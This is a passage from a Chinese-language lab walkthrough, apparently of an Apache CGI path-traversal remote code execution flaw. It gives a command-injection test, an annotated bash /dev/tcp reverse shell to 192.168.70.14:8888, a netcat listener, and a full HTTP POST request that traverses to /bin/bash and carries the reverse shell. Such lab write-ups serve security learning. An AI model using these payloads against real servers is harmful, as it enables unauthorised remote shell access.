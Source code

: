

```
echo;ls /
```



![image-20240712095806408](https://image.201068.xyz/assets/image-20240712095806408.png)

##### 3.反弹shell

```
bash -c 'bash -i >& /dev/tcp/192.168.70.14/8888 0>&1'
```

```
bash -c：指定使用bash这个shell来执行后面的命令
bash -i：启动一个交互式的shell
>&：标准输出和错误输出都进行重定向
/dev/tcp/192.168.70.14/8888：要重定向到的位置，此处为192.168.70.14:8888
0>&1：把标准输入重定向到标准输出
```

###### 攻击机开启监听

```
nc -lvvp 8888
```

![image-20240712103318702](https://image.201068.xyz/assets/image-20240712103318702.png)

###### 靶机反弹shell

```
POST /cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/bash HTTP/1.1
Host: 192.168.70.14:8080
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

echo; bash -c 'bash -i >& /dev/tcp/192.168.70.14/8888 0>&1'
```

![image-20240712103422499](https://image.201068.xyz/assets/image-20240712103422499.png)

###### 成功接收反弹shell

![image-20240712103447916](https://image.201068.xyz/assets/image-20240712103447916.png)
